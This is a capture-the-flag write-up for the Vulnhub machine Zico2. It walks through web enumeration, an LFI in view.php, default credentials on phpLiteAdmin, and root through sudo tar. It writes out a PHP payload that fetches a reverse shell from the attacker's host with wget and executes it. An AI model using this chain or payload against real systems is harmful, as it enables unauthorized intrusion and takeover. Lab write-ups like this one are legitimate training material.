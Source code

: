 # Zico2 - Writeup

Zico is an intermediate level machine from Vulnhub by Rafael.<br />
Our goal is to get root and read the flag file.
<br />

The description says: "Zico is trying to build his website but is having some trouble in choosing what CMS to use. After some tries on a few popular ones, he decided to build his own. Was that a good idea?
Hint: Enumerate, enumerate, and enumerate!"

Link to the machine: [https://www.vulnhub.com/entry/zico2-1,210/](https://www.vulnhub.com/entry/zico2-1,210/) 

<br />

## Target discovery

First, let's identify our target's IP address.

```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```
<br />

## Scanning The Target

Scan our target for any open ports, running services, services version, and OS detection.

![](Pics/nmap.png)
<br />
<br />

There're four open ports.

<br />

## Web Enumeration

Starting with the web server, runs gobuster while we manually examine the webpage.

![](Pics/web.png)
<br />
<br />

No clues, and nothing useful in the source code.<br />

Let's look back on gobuster result.

![](Pics/gob.png)
<br />
<br />

Ok, there're two interesting directories, `/view.php`, and `/dbadmin`, let's check "dbadmin".

![](Pics/web2.png)
<br />
<br />

We have `test_db.php` which is a login page to SQLite database admin panel.

![](Pics/web3.png)
<br />
<br />

Searching for known exploits for this version.

![](Pics/search.png)
<br />
<br />

There's one that allows us to remote inject php code but after authentication. We'll be back to it.<br />
Inspecting `View.php`, when adding `?` to `view.php` it calls `page=tools.html`.

![](Pics/web4.png)
<br />
<br />

Testing it against `LFI`, and it's vulnerable.

![](Pics/web5.png)
<br />
<br />

Nice! but, how do we use it?<br />
Anyway, back to "phpLiteAdmin" and searching for common, default passwords and guess what? 
It's `admin`.

![](Pics/default.png)
<br />
<br />

Logged in.

![](Pics/cms.png)
<br />
<br />

Click on the table `info` from `test_users` database, and two rows show up.

![](Pics/cms2.png)
<br />
<br />

Let's crack them.

![](Pics/crack.png)
<br />
<br />

Tried to log in with SSH but didn't work.
<br />

## Getting access

Back to our exploit.

![](Pics/exp.png)
<br />
<br />

Following the steps, with little modification. First, create a database named `hack.php`.

![](Pics/db.png)
<br />
<br />

Now, create a new table by clicking on the created database.

![](Pics/db2.png)
<br />
<br />

Add a php code that will download a reverse shell from our machine, and then execute it.<br />
`<?php system("wget 10.10.10.2:8080/revshell.php -O /tmp/revshell.php; php /tmp/revshell.php"); ?>`

![](Pics/db3.png)
<br />
<br />

Download a php reverse shell [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), or on kali: `/usr/share/webshells/php/php-reverse-shell.php`.<br />
Just remember to change the port and ip address.

![](Pics/shell.png)
<br />
<br />

Open an HTTP server where your reverse shell is, and open a listener.

![](Pics/shell2.png)
<br />
<br />

We will use the `LFI` we found in `view.php` to trigger our php code.

![](Pics/shell3.png)
<br />
<br />

Upgrade our shell. 
> Reference: [https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2](https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).

![](Pics/shell4.png)
<br />
<br />

## Privilege Escalation

Start enumeration to escalate our privileges.
Under `Ziko`'s directory, there're three CMS files.

![](Pics/shell5.png)
<br />
<br />

Under `WordPress`, there's `wp-config.php` which contains `zico`'s credentials, tried to ssh.

![](Pics/user.png)
<br />
<br />

## root access

Checking for sudo permission.

![](Pics/user2.png)
<br />
<br />

We can run `tar` and `zip` with root privilege without any password.<br />
On [gtfobins](https://gtfobins.github.io/gtfobins/tar/), we could abuse `tar` to escalate our privileges to root. 

![](Pics/root.png)
<br />

